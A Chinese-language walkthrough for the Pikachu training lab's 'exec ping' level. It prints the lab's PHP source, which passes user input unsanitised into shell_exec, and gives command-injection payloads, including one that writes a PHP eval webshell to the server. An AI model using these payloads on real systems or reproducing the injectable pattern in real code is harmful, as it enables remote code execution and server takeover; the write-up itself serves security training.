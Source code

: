 # exec "ping"

# 一、代码审计

该关卡的代码如下

```php+HTML
<?php
/**
 * Created by runner.han
 * There is nothing new under the sun
 */


$SELF_PAGE = substr($_SERVER['PHP_SELF'],strrpos($_SERVER['PHP_SELF'],'/')+1);

if ($SELF_PAGE = "rce_ping.php"){
    $ACTIVE = array('','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','active open','','active','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','');
}

$PIKA_ROOT_DIR =  "../../";
include_once $PIKA_ROOT_DIR . 'header.php';


header("Content-type:text/html; charset=gbk");
$result='';

if(isset($_POST['submit']) && $_POST['ipaddress']!=null){
    $ip=$_POST['ipaddress'];
//     $check=explode('.', $ip);可以先拆分，然后校验数字以范围，第一位和第四位1-255，中间两位0-255
    if(stristr(php_uname('s'), 'windows')){
//         var_dump(php_uname('s'));
        $result.=shell_exec('ping '.$ip);//直接将变量拼接进来，没做处理
    }else {
        $result.=shell_exec('ping -c 4 '.$ip);
    }

}



?>


<div class="main-content">
    <div class="main-content-inner">
        <div class="breadcrumbs ace-save-state" id="breadcrumbs">
            <ul class="breadcrumb">
                <li>
                    <i class="ace-icon fa fa-home home-icon"></i>
                    <a href="rce.php">rce</a>
                </li>
                <li class="active">exec "ping"</li>
            </ul><!-- /.breadcrumb -->
            <a href="#" style="float:right" data-container="body" data-toggle="popover" data-placement="bottom" title="tips(再点一下关闭)"
               data-content="想一下ping命令在系统上是怎么用的">
                点一下提示~
            </a>


        </div>
        <div class="page-content">

            <div id="comm_main">
                <p class="comm_title">Here, please enter the target IP address!</p>
                <form method="post">
                    <input class="ipadd" type="text" name="ipaddress" />
                    <input class="sub" type="submit" name="submit" value="ping" />
                </form>

                    <?php
                    if($result){
                        echo "<pre>{$result}</pre>";
                    }
                    ?>
            </div>


        </div><!-- /.page-content -->
    </div>
</div><!-- /.main-content -->





<?php
include_once $PIKA_ROOT_DIR . 'footer.php';

?>
```

通过观察源码可以得到该关卡对命令注入无任何防护

***

# 二、通关教程

该页面是通过shell_exec()函数来执行ping命令，但在传递参数IP时未对其进行处理导致了恶意传参

```
127.0.0.1 && whoami		# 其他Payload参考上方
```

![image-20230308130041662](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\RCE\images\image-20230308130041662.png)

写入一句话密码

```
127.0.0.1 && echo ^<?php @eval($_POST['cmx']); ?^> >shell.php
```

![image-20230308130155197](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\RCE\images\image-20230308130155197.png)

![image-20230308130354113](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\RCE\images\image-20230308130354113.png)
